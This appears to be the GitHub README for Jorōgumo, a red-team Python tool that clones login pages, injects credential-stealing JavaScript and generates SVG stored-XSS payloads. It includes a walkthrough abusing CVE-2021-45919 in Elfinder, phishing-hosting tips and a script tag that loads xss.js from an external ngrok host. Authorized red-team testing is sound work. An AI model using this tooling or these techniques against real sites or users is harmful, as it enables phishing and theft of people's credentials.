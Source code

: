 # Jorōgumo [ 絡新婦 ]
A red team tool written in python for building SVG stored xss payloads, cloning webpages, or implementing custom javascript in pre-existing or cloned webpages.

## Features
![da12503cb7e54226a8e9f8164a6c0694](https://user-images.githubusercontent.com/39013067/228970400-306a5a8f-bcb8-45e1-9227-943e643136db.png)
### Clone a webpage: 

Creates a local copy of the target webpage, which can be used for further customization or attack purposes.
### Create a standalone SVG payload: 

Generates a payload in SVG format, embedding a specified image URL and redirecting users to a specified URL upon interaction.
### Stored Cross-Site Scripting SVG Credential Stealer: 

Clones a login page and injects a script that captures user credentials, and then generates an SVG to be chained with a stored cross-site scripting vulnerability. When the stored cross-site scripting svg payload is triggered, it renders a 404 picture by default, or the custom picture entered by the user, and when clicked, redirects the user to the attacker's malicious login page, where the credential stealer will post credentials to a web request catcher or listener.
### Build a webpage with existing JavaScript and HTML: 

Takes an existing HTML file and adds specified JavaScript code, either from a local file or a remote URL.
### Build a webpage with existing JavaScript but no HTML: 

Clones a webpage and adds specified JavaScript code, either from a local file or a remote URL, into the cloned webpage.
### Custom JavaScript Stored Cross-Site Scripting SVG Payload: 

Clones a webpage and adds specified JavaScript code, either from a local file or a remote URL, into the cloned webpage. Generates an SVG to be chained with a stored cross-site scripting vulnerability. When the stored cross-site scripting svg payload is triggered, it renders a 404 picture by default, or the custom picture entered by the user, and when clicked, redirects the user to the attacker's malicious page, where the custom javascript code will be executed.

## Usage
`git clone https://github.com/SpiderLabs/Jorogumo`

Install the required packages: 

`pip install -r requirements.txt`

Follow the prompt and enter the requested input. Simple javascript code snippets are included in xss.js and cred-stealer.js in the payloads folder, which could be useful if you want to merge them into any of your existing html files for PoC purposes.

## Limitations
- The current version of this script is not built to handle capturing credentials that require 2FA.
- Login forms that don't give you the ability to provide the `username` and `password` input prior to clicking any buttons are not supported. In otherwords, multi-action login forms are not supported in this iteration.
- Some pages or login forms do not clone well, you'll have to keep this in mind when testing your pages to ensure that it looks okay. You could always remove uneccesary third-party elements.
- Ensure that you're hosting on a domain with HTTPS enabled or you're probably going to have issues using the payloads.
- Cross-Origin Read Blocking (CORB) is a thing, so you'll have better luck either implementing your javascript directly in the HTML or ensuring that the .js payload you want to use is hosted on your phishing domain and referenced as such. There's header and content workarounds, but i'd recommend the easy way from the jump.

## Example of Stored Cross-Site Scripting SVG Credential Stealer
**Note, I used the admin panel for the PoC since that's what I have the credentials for, in reality you'd want to clone the main-site login page instead**
### Abusing [CVE-2021-45919](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/from-stored-xss-to-rce-using-beef-and-elfinder-cve-2021-45919/) [ Stored XSS in Elfinder through 2.1.31 ]

#### Malicious SVG is Generated and uploaded to the Subrion admin panel using Elfinder
![b20f44768b554b37b820f7c0941c4c2c](https://user-images.githubusercontent.com/39013067/228977314-a4760a7f-fa0c-42d2-978b-f4ace0af0420.png)

#### Direct Link Hosted on Trusted Domain & Sent to User w/custom 404 page
![a99b0cc85bce434e92ed3c1696bb8821](https://user-images.githubusercontent.com/39013067/228978059-e5c040dd-0821-47f6-b789-961df5a95f8e.png)

#### Victim Clicks - Redirected to Cloned Admin Login
![5895c779f65a40b8bac462569a5ebee9](https://user-images.githubusercontent.com/39013067/228976353-9b525831-5aa6-4e73-ba20-e4374b6b7196.png)

#### Authentication Event Sends Credentials
![6e0d4e0ffd7d40b599c81b64f5b9031f](https://user-images.githubusercontent.com/39013067/228978339-01cbe7da-46d2-4d4b-b065-a45d987e96f4.png)

## Custom JS included in HTML
![583d547a9c1c42e8b1d633ba7be7804d](https://user-images.githubusercontent.com/39013067/228978613-7b86739a-5512-4d6d-a047-c513ecec5132.png)

#### Snippet of Code for Basic XSS included, and Externally Referenced .js
```
<script>
alert('Hacked');
</script>
```
```
<script src="https://32bb-73-181-111-237.ngrok.io/xss.js">
</script>
```
As you can see, the tool uses regular script tags for local .js and script src for external.
